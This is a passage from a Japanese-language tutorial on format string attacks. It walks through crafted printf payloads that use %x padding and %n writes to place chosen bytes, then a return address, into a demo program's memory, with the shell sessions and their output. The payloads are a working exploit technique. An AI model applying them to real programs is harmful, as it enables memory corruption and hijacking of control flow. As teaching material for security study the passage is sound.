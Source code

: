 　0xaaと0xbb、0xbbと0xcc、0xccと0xddの間にはそれぞれ17の違いがありますの
で、以降は%xのフィールド幅指定には15（変換指定文字の間の.および変換指定文
字自身を勘定して2を引いている）を指定します。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x6c\xf9\xff\xbfJUNK\x6d\xf9\xff\xbfJUNK\x6e\xf9\xff\xbfJUNK\x6f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%96x.%n.%15x.%n.%15x.%n.%15x.%n
[debug]addr of score \= bffff96c
[debug]addr of payload \= bffff930
Score of l鐃緒申UNKm鐃緒申UNKn鐃緒申UNKo鐃緒申ffffb3f.1.bffff8a4.4d532038.532050.b7eb116c. 1.. 4b4e554a.. 4b4e554a.. 4b4e554a. is \-573785174(ddccbbaa)!! 
\-\-\-\-\-

　以上のように、0xddccbbaaを書き込むことができました。ここまでくれば、SE
IPに偽の戻りアドレスを上書きするまで後一歩です。

●戻りアドレスの書き込み

　アドレスを書き込む場合、もうひとつ気にしなければならない項目があります。
アドレスはよく、0x0806abcdのような値になります。0xcdの次に0xabが来ている
ことが今回の議題です。気付いた方もいらっしゃると思いますが、フィールド幅
オプションで指定できたのは値が増えていく場合のみです。アドレスのように引
き算を行わなければならないときは、また別のテクニックを用います。

- 桁あふれによるアドレスの書き込み

　加算によって減算を行うことができるというのは周知のことだとは思いますが、
軽く触れておきます。桁が2桁しかない場合、50+67は17になります。桁を無視す
れば50+67は117ですが、2桁であるとすれば繰り上がった桁は無視され17のみが認
識されます。つまり、50+67は加算でありながら50から33を減算したことになりま
す。このように桁あふれを利用すれば加算のみで減算を行うことができるのです。
　これを応用して0x0806abcdを作ってみます。

\-\-\-\-\-
newbie@Glazheim:knoppix$ ./game.exe \`printf "\x7c\xf9\xff\xbfJUNK\x7d\xf9\xff\xbfJUNK\x7e\xf9\xff\xbfJUNK\x7f\xf9\xff\xbf"\`%x%x%x%x%x%x%x%n
[debug]add of score \= bffff97c
Score of |鐃緒申UNK}鐃緒申UNK\~鐃緒申UNK鐃緒申ffffbedb7eb714eb7eb1efcb7ea942cb7fe9b9010 is 75(4b)!! 
\-\-\-\-\-

　初期値は75であるとわかりました。ここからcdを作ります。0xCD\=205なので205
\-75\=130であり、131をフィールド幅に指定すれば良いことがわかります。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x6c\xf9\xff\xbfJUNK\x6d\xf9\xff\xbfJUNK\x6e\xf9\xff\xbfJUNK\x6f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%131x.%n.%x.%n.%x.%n.%x.%n
[debug]addr of score \= bffff96c
[debug]addr of payload \= bffff930
Score of l鐃緒申UNKm鐃緒申UNKn鐃緒申UNKo鐃緒申ffffb44.1.bffff8a4.4d532038.532050.b7eb116c. 1..4b4e554a..4b4e554a..4b4e554a.is \-337520691(ebe1d7cd)!! 
\-\-\-\-\-

　次に、0xabを作りますが、0xcdから0xabを作らなくてはならないため、桁あふ
れを用います。つまり、0x1AB\=427であり、1AB\-CD\=222ですので、次のフィールド
幅オプションには220を指定します。桁あふれが発生し、減算が可能です。

